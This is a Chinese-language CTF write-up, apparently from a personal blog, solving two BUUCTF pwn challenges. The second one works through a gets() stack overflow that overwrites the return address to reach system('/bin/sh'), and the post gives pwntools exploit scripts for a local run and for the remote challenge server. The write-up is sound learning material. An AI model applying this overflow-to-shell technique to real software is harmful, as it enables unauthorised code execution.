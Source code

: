 ```yaml
---
title: rip1
author: Stan
date: 2020-09-17 19:00:33 +0800
categories: [CTF,BUUCTF]
tags: [Pwn]
---
```

## test_your_nc
```
nc node3.buuoj.cn 25795
```

![2020-09-17_13-42-26](https://i.loli.net/2020/09/18/NACD2xQiStRhu5T.png)

直接nc过去，ls即可看到文件，发现flag，cat即可发现flag

```
cat flag
```

---

## rip

先`checksec`，发现保护都没开

![2020-09-17_15-09-45](https://i.loli.net/2020/09/19/LdE5bpzWK9lyCAt.png)

打开`IDA64`

搜索字符串，发现**/bin/sh**

查交叉引用，最后发现这里![2020-09-17_19-15-52](https://i.loli.net/2020/09/19/bW4emScKthifgJR.png)

system也有了，根据题目名字，只要栈溢出，rip覆盖成40118A就行了

![image-20200917192213258](https://i.loli.net/2020/09/19/jFzIb1xnsef5k3J.png)

很明显gets函数没有限制输入，存在溢出点

![image-20200917192549256](https://i.loli.net/2020/09/19/di3Ojf5xtwm1yCg.png)

之后查看栈，发现只要覆盖15+8就可以了

之后写Exploit

````python
from pwn import *

a=process('./pwn1')

a.recvuntil("please input")

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

这是本地调试，非常成功，但是跑remote会无反应

怀疑是服务器文件和下发的文件不同，需要猜测代码

先nc过去查看程序逻辑

![image-20200917194052156](C:\Users\cf260\Desktop\Stan-Pr0t3ct.github.io\assets\img\posts\image-20200917194052156.png)

应该就是把puts和gets的位置反了一下，调整一下exp

````python
from pwn import *

a=remote('node3.buuoj.cn',27250)

a.sendline(b"a" * 23 + p64(0x40118A))

a.interactive()
````

因为顺序反了，所以直接send就行

![image-20200917194310546](C:\Users\cf260\Desktop\Stan-Pr0t3ct.github.io\assets\img\posts\image-20200917194310546.png)

得到flag

---

